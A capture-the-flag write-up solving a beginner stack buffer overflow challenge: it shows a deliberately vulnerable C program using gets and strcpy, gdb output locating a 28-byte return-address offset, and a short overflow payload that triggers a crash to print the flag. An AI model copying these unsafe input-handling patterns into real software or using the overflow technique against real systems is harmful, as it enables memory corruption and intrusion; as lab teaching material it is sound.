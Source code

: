 # buffer overflow 0

## Description

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.

Additional details will be available after launching your challenge instance.

## Enumeration

We are provided with two files: `vuln` and `vuln.c`. Before starting, lets do some enumeration on the artifact. First, lets check what kind of binary we're dealing with:

```bash
$ file ./vuln       
./vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
```

This artifact is a 32-bit PIE executable. It's dynamically linked against libc. Lastly, its symbols are not stripped. 

Lets check the artifact securities:

```bash
$ pwn checksec vuln            
[*] 'buffer-overflow-0/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Everything is enabled except for stack canaries which will make overflowing buffers a lot easier.

## Code Review

We are given the source code in `vuln.c` so lets check that out:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

The challenge begins by loading `flag.txt` into memory. It then sets up a signal handler for SIGSEGV, which will print the flag and exit when triggered. Finally, the application waits for user input.

There are two exploitable vulnerabilities: the `gets` function and the `strcpy` function. While this may seem tempting, our primary goal is to obtain the flag. If a SIGSEGV occurs, the `sigsegv_handler` callback function will be invoked, printing the flag to stdout. But what exactly is SIGSEGV?

## Linux Signals

In Linux, applications can handle events sent from the operating system, known as [signals](https://faculty.cs.niu.edu/~hutchins/csci480/signals.htm). A signal is a type of interrupt used to notify a process of asynchronous events. The operating system can send various signals to a process, such as SIGKILL to terminate it, SIGABRT to abort its execution, SIGSTOP to pause it, or SIGCONT to resume it.

SIGSEGV (segmentation fault) is one of these signals. It is sent to a process when it tries to access a memory location that it is not allowed to access. This error can be triggered by several issues, such as dereferencing null pointers, buffer overflows, invalid memory permissions, accessing freed pointers, or stack overflows.

In the context of this challenge, if we can induce the process to receive a SIGSEGV from the OS, it will print the flag and exit. To achieve this, we can exploit a buffer overflow to overwrite the return address with a pointer to invalid memory. This action will cause the OS to send a SIGSEGV, resulting in the flag being printed.

## Exploit Development

We could crash the application by sending large input to the buffer, but this approach lacks elegance.

Instead, let’s start by finding the offset to the return pointer. A more refined way to trigger a SIGSEGV is to overflow `buf2` in the `vuln` function.

```bash
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x56556353 <+0>:     endbr32
   0x56556357 <+4>:     push   ebp
   0x56556358 <+5>:     mov    ebp,esp
   0x5655635a <+7>:     push   ebx
   0x5655635b <+8>:     sub    esp,0x14
   0x5655635e <+11>:    call   0x5655649b <__x86.get_pc_thunk.ax>
   0x56556363 <+16>:    add    eax,0x2c49
   0x56556368 <+21>:    sub    esp,0x8
   0x5655636b <+24>:    push   DWORD PTR [ebp+0x8]
   0x5655636e <+27>:    lea    edx,[ebp-0x18]
   0x56556371 <+30>:    push   edx
   0x56556372 <+31>:    mov    ebx,eax
   0x56556374 <+33>:    call   0x56556170 <strcpy@plt>
   0x56556379 <+38>:    add    esp,0x10
   0x5655637c <+41>:    nop
   0x5655637d <+42>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x56556380 <+45>:    leave
   0x56556381 <+46>: 
gef➤  b *0x56556381
gef➤  pattern create 128
gef➤  r
...
gef➤  pattern offset $esp
[+] Searching for '68616161'/'61616168' with period=4
[+] Found at offset 28 (little-endian search) likely
```

The offset to the return pointer is 28 bytes. We can confirm this by sending the following payload and then checking the return pointer after hitting the breakpoint again:

```bash
$ python3 -c 'print("A" * 28 + "B" * 4)'                       
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

...

gef➤  x/xw $esp
0xffffcddc:     0x42424242
```

Believe it or not, that’s all there is to it! The payload `AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB` is sufficient for this challenge. The reason is that the address 0x42424242 is an invalid memory address. When the process attempts to access this address, the OS will send a SIGSEGV signal, causing the application to print the flag.